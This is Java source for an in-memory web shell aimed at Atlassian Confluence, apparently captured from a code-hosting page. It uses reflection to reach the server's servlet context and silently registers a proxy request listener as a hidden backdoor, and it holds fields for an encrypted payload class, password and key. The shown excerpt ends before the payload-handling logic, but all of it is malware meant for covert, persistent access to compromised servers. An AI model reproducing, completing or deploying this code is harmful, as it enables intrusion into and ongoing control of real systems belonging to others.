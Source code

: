 ```plain
package main;

import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.ArrayList;
import java.util.Base64;

public class ConfluenceFilterMemshell extends ClassLoader implements InvocationHandler {
    private static boolean initialized = false;
    private static Object lock = new Object();
    private static Class payloadClass;
    private static String password;
    private static String key;
    public ConfluenceFilterMemshell(ClassLoader loader){
        super(loader);
    }
    public ConfluenceFilterMemshell(){
        synchronized (lock){
            if (!initialized){
                try {
                    Class servletRequestListenerClass = null;
                    try {
                        servletRequestListenerClass = Class.forName("jakarta.servlet.ServletRequestListener");
                    } catch (Exception e) {
                        try {
                            servletRequestListenerClass = Class.forName("javax.servlet.ServletRequestListener");
                        } catch (ClassNotFoundException ex) {

                        }
                    }
                    if (servletRequestListenerClass!=null){
                        addListener(Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(),new Class[]{servletRequestListenerClass},this),getStandardContext());
                    }
                }catch (Throwable e){

                }
                initialized = true;
            }
        }
    }


    private Object getStandardContext() {
        try {
            Object servletActionContextCompatManager = Class.forName("com.atlassian.confluence.compat.struts2.servletactioncontext.ServletActionContextCompatManager").newInstance();
            Method getRequest = Class.forName("com.atlassian.confluence.compat.struts2.servletactioncontext.ServletActionContextCompatManager").getMethod("getRequest");
            Object request = getRequest.invoke(servletActionContextCompatManager, null);
            Object servletContext = invokeMethod(request, "getServletContext");
            return getFieldValue(getFieldValue(servletContext,"context"), "context");
        } catch (Exception e) {

            return null;
        }
    }

```